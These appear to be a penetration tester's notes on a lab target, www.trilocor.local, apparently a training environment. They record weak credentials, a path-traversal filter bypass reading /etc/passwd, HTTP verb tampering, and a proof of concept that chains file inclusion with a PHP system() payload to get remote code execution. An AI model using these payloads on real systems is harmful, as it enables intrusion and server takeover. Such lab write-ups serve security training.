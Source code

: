# www.trilocor.local:8088

---

Weak creds

![image.png](www%20trilocor%20local%208088%201d3021737a898064ac00ea1c0264f477/image.png)

```bash
hr-smith:smith2020
```

---

Possible LFI?

Filter profiile.

Blocks:

1. /
2. ‘
3. %20
4. \
5. %2F
6. %3D
7. +

---

Verb Tampering

![image.png](www%20trilocor%20local%208088%201d3021737a898064ac00ea1c0264f477/image%201.png)

![image.png](www%20trilocor%20local%208088%201d3021737a898064ac00ea1c0264f477/image%202.png)

![image.png](www%20trilocor%20local%208088%201d3021737a898064ac00ea1c0264f477/image%203.png)

---

Does grep.replace ../, but it can be bypassed

![image.png](www%20trilocor%20local%208088%201d3021737a898064ac00ea1c0264f477/image%204.png)

![image.png](www%20trilocor%20local%208088%201d3021737a898064ac00ea1c0264f477/image%205.png)

```bash
....//....//....//....//etc/passwd
```

---

CRITICAL: Session Poisoning RCE

PoC:

1. Enumerate file descriptor for running process (N - from 0 to 100)

![image.png](www%20trilocor%20local%208088%201d3021737a898064ac00ea1c0264f477/image%206.png)

![image.png](www%20trilocor%20local%208088%201d3021737a898064ac00ea1c0264f477/image%207.png)

```bash
language=....//....//....//....//proc/self/fd/11
```

1. Using tampering, submit a poisonous payload to language

![image.png](www%20trilocor%20local%208088%201d3021737a898064ac00ea1c0264f477/image%208.png)

```bash
language=<?php system('whoami'); ?>
```

1. Request file descriptor again and receive RCE output

![image.png](www%20trilocor%20local%208088%201d3021737a898064ac00ea1c0264f477/image%209.png)